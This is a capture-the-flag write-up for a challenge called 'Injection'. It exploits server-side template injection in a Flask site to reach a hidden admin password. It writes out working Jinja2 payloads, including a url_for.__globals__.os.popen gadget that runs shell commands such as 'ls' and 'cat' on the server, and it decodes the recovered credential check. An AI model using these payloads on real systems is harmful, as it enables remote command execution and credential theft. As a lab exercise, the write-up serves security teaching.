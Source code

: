 # Injection (200)

## Description:
```
Our local pharmacy exposed admin login to the public, can you exploit it? http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/
```

## Writeup

The site is vulnerable to SSTI (server-side template injection). Arguments like `{{2*2}}` will get evaluated by the site. By using [burp-parameter-settings.txt](https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt) common variable names can be bruteforced ([brute.py](./brute.py)). By executing `http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/{{config}}` the server returns some flask specific environment variables.

Python gadgets can be used to access the server's file system:
```
http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/{{url_for.__globals__.os.popen("ls").read()}}
http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/{{url_for.__globals__.os.popen("cat lib/security.php").read()}}
```

*security.php*
```python3
import base64

def validate_login(username, password):
  if username != 'admin':
    return False
  valid_password = 'QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ'
  return base64.b64encode(password.encode('ascii')).decode('ascii')[::-1].lstrip('=') == valid_password
```

Add the padding characters, reverse the string and decode it:
```bash
$ echo ==QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ | rev | base64 -d
```

Flag: `dctf{4ll_us3r_1nput_1s_3v1l}`

**Resources:**

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee  
https://www.youtube.com/watch?v=SN6EVIG4c-0&t=505s
